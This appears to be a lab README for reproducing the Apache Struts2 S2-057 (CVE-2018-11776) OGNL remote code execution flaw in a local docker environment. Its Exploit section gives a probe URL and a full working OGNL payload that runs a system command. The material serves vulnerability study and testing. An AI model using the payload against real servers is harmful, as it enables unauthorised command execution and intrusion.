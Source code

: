 # Struts2 S2-057 Remote Code Execution Vulnerablity (CVE-2018-11776)

Affected Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/showcase/` and you will see the Struts2 test page.

## Exploit

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

Result:

![](2.png)
